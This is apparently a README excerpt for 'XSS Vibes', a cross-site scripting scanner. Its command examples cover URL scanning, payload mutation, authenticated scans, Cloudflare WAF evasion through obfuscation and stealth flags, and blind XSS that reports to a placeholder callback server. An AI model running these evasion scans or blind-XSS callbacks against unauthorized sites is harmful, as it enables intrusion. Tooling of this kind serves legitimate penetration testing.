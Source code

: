 #### Service Health Monitoring
```bash
# Check 12+ external services
python3 service_checker.py

# Monitors: Wayback Machine, crt.sh, XSS Hunter, etc.
```

### Traditional XSS Vibes Usage

> **Note**: You can run XSS Vibes in two ways:
>
> - Direct command: `xss-vibes [command]` (after installation)
> - Module execution: `xss-vibes [command]` (from source)

### Basic Scanning

```bash
# Single URL scan
xss-vibes scan https://example.com/search?q=test

# Multiple URLs from file
xss-vibes scan -l urls.txt

# Advanced scan with WAF detection
xss-vibes scan https://target.com --waf-mode --threads 5
```

### 🧬 Payload Mutation
```bash
# Generate intelligent payload variants
xss-vibes mutation --payload "<script>alert(1)</script>" --context html_text --variants 10

# Advanced genetic algorithm evolution
xss-vibes mutation --payload "alert(1)" --generations 5 --population 20
```

### 🔐 Authenticated Scanning
```bash
# Form-based authentication
xss-vibes scan https://app.com/dashboard \
  --login-url https://app.com/login \
  --username admin --password secret \
  --auth-type form

# Session with saved profile
xss-vibes session --login-url https://app.com/login \
  --username admin --password secret \
  --save-profile app-session.json
```

### 🛡️ Advanced Evasion
```bash
# Maximum evasion mode
xss-vibes scan https://target.com \
  --encoding-level 3 \
  --obfuscate \
  --stealth \
  --target-waf cloudflare

# Blind XSS testing
xss-vibes scan https://target.com \
  --blind \
  --callback-url https://your-server.com/callback
```